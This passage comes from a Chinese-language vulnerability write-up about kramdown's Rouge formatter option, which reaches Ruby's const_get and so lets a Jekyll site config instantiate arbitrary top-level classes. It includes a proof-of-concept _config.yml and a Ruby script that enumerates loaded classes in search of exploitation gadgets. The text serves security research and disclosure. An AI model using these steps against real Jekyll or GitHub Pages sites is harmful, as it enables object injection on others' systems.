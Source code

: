 ```
def self.formatter_class(opts = `{``}`)
  case formatter = opts[:formatter]
  when Class
    formatter
  when /\A[[:upper:]][[:alnum:]_]*\z/
    ::Rouge::Formatters.const_get(formatter)
```

当时我认为这是安全的，但还是把它同`simple_hash_validator` 一起进行了提交。

第二天晚上，我研究了一下`::Rouge::Formatters.const_get`的实际工作原理。结果发现，它并不像我原来想的那样，把常量限制在`::Rouge::Formatters`上，而是可以返回任何定义过的常量或类。虽然正则仍然有限制（不允许使用`::`），但仍然可以用来返回类。一旦找到了常量，它就会被用来创建一个新的实例，然后调用`format`方法:

```
formatter = formatter_class(opts).new(opts)
formatter.format(lexer.lex(text))
```

为了测试这一点，我用如下的`_config.yml`，然后建立网站:

```
kramdown:
  syntax_highlighter: rouge
  syntax_highlighter_opts:
    formatter: CSV
```

虽然报了错，但错误信息显示CVS类已经被创建了!

```
jekyll 3.8.5 | Error:  private method 'format' called for #&lt;CSV:0x00007fe0d195bd48&gt;
```

我在报告中添加了一个评论，表明`formatter`选项肯定应该被限制，我会继续研究它是否可被利用。

现在，我能够创建一个顶级的ruby对象，它的初始化器取单一的哈希值，而且我们对哈希值的内容有相当大的控制权。我花了一点时间在google和ruby中测试如何获得一个常量列表，然后得出了下面的脚本：

```
require "bundler"
Bundler.require

methods = []
ObjectSpace.each_object(Class) `{`|ob| methods &lt;&lt; ( `{`ob: ob `}`) if ob.name =~ /\A[[:upper:]][[:alnum:]_]*\z/ `}`

methods.each do |m|
  begin
    puts "trying #`{`m[:ob]`}`"
    m[:ob].new(`{`a:1, b:2`}`)
    puts "worked\n\n"
  rescue ArgumentError
      puts "nope\n\n"
  rescue NoMethodError
      puts "nope\n\n"
  rescue =&gt; e
      p e
      puts "maybe\n\n"
  end
end
```

